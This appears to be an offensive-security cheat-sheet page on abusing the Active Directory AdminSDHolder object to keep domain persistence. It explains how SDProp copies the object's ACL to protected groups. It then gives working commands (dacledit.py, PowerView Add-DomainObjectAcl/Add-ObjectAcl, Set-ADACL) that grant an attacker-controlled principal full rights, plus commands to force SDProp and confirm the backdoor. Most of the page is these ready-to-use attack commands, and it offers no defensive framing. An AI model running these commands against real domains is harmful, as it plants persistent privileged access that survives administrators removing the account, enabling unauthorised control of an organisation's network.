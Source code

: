 # AdminSDHolder

## Permissions: Domain Admin

### The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

### If you modify the permissions of AdminSDHolder, that permission template will be pushed out to all protected accounts automatically by SDProp (in an hour). E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

### Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

## Linux

    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

### Inspection

    dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

## Windows

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All

##### PowerView

    Add-ObjectAcl -TargetSearchBase 'CN=AdminSDHolder,CN=System' -PrincipalIdentity user1 -Rights All -Verbose

##### AD Module

    Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -Principal user1 -Verbose

Run SDProp manually

    Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

##### Pre-Server 2008

    Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose


OR

Then wait for SDProp process to run. It may take up to 60 minutes. After waiting, run the command below to inspect if the user has been added as a domain admin

### Inspection

    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

##### PowerView

    Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}

##### AD Module

    (Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=domain,DC=local').Access | ?{$_.IdentityReference -match 'user1'}

